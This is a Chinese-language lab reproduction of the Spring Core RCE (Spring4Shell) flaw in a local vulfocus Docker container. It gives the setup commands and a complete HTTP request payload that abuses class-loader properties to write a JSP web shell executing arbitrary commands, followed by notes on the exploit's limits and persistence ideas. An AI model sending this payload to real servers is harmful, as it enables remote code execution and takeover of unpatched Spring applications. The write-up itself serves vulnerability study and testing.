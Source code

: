 ## 环境搭建
```shell
docker pull vulfocus/spring-core-rce-2022-03-29
```
## 启动环境
```shell
docker run -it -d --name springrce -p 192.168.93.131:9000:8080 vulfocus/spring-core-rce-2022-03-29
```
访问`192.168.93.131:9000` 出现如下界面则说明环境搭建成功

![image.png](Spring-Core RCE.assets/2023_05_19_10_37_03_V9kD1vnq.png)

## 漏洞复现
当前docker 环境中，jdk版本为9.0

![image.png](Spring-Core RCE.assets/2023_05_19_10_37_03_AiRqoUuC.png)

```http
POST / HTTP/1.1
Host: 192.168.93.131:9000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 685
suffix: %>
prefix: <%

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7bprefix%7dijava.io.InputStream+in+%3d+Runtime.getRuntime().exec(request.getParameter("i")).getInputStream()%3b+int+a+%3d+-1%3b+byte[]+b+%3d+new+byte[2048]%3b+out.print("<pre>")%3b+while((a%3din.read(b))!%3d-1){+out.println(new+String(b))%3b+}+out.print("</pre>")%3b%25%7bsuffix%7di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=./webapps/ROOT/&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat
```
![image.png](Spring-Core RCE.assets/2023_05_19_10_37_04_viXaoteV.png)

## 问题总结

1. 目前看效果只能写一次，发送过1次payload之后，是不能向其他目录下写新文件
2. 发送一次payload之后之后，只能向文件里追加，不会覆盖文件
3. 如果没有容器化部署（tomcat war包部署），是写不了webshell，虽然还没捋清楚是否是代码执行，如果是代码执行，那么可以在运行态中写入内存马达到作用，如果是命令执行，那么是不行的（看payload的样子感觉是命令执行`pipeline`）
4. 如果是以jar包部署，那么考虑到启动jar包的用户权限，一般不会太高，在做了最小权限法的服务器，启动web服务的用户是没有家目录，导致无法写入公钥，也没权限写入计划任务
5. post包最后也就是第15行后不要有回车，不然生成的文件是`shell$\r\n.jsp`
6. 目前看很鸡肋



